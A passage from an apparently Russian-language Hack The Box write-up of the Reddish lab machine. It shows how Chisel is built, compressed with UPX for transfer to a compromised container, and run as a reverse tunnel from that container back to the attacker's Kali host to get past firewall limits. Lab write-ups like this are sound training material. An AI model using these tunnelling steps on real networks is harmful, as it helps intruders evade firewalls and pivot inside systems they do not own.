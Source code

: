 It works! Видеть такие надписи мне однозначно нравится.

Как я и говорил, это всего лишь пример, потому что дальше мы будем пользоваться клиент-сервером Chisel для продвижения по виртуалке Reddish.

## Chisel

> Быстрые TCP-туннели от Chisel. Транспортировка по HTTP. Безопасность по SSH. <strike>Мы новый мир построим</strike>

Ладно, возможно, разработчик [описывает](https://github.com/jpillora/chisel/blob/master/README.md) свой софт чуть менее пафосно, но у меня в голове это прозвучало именно так.

А если серьезно, то Chisel — это связка «клиент + сервер» в одном приложении, написанном на Go, которое позволяет прокладывать защищенные туннели в обход ограничений файрвола. В нашем случае мы будем использовать Chisel, чтобы настроить реверс-коннект с контейнера `rednode` до Kali. По большому счету, функционал этого инструмента очень схож с принципами организации туннелирования посредством SSH, даже синтаксис команд похож.

Чтобы не запутаться в хитросплетениях соединений, я буду вести сетевую «карту местности». Пока у нас есть информация только о `nodered` и `www`.

![network-map-1.png](/assets/images/htb/machines/reddish/network-map-1.png)
{:.center-image}

Сетевая карта. Часть 1: Начальные сведения
{:.quote}

Загрузим и соберем Chisel на Kali.

```
root@kali:~# git clone http://github.com/jpillora/chisel && cd chisel
root@kali:~/chisel# go build
root@kali:~/chisel# du -h chisel
12M     chisel
```

Объем 12 Мб — это немало в условии транспортировки исполняемого файла на машину-жертву, поэтому можно так же сжать бинарник, как мы делали это с `dropbear`: с помощью флагов линковщика `-ldflags` уберем отладочную информацию, а затем упакуем файл в UPX.

```
root@kali:~/chisel# go build -ldflags='-s -w'
root@kali:~/chisel# upx chisel
root@kali:~/chisel# du -h chisel
3.2M    chisel
```

Класс, теперь перенесем `chisel` в контейнер и создадим туннель.

```
root@kali:~/chisel# ./chisel server -v -reverse -p 8000
```

Первым действием поднимаем сервер на Kali, который слушает активность на 8000-м порту (`-p 8000`) и разрешает создание обратных подключений (`-reverse`).

```
root@nodered:/tmp# ./chisel client 10.10.14.19:8000 R:127.0.0.1:8890:172.19.0.3:80 &
```
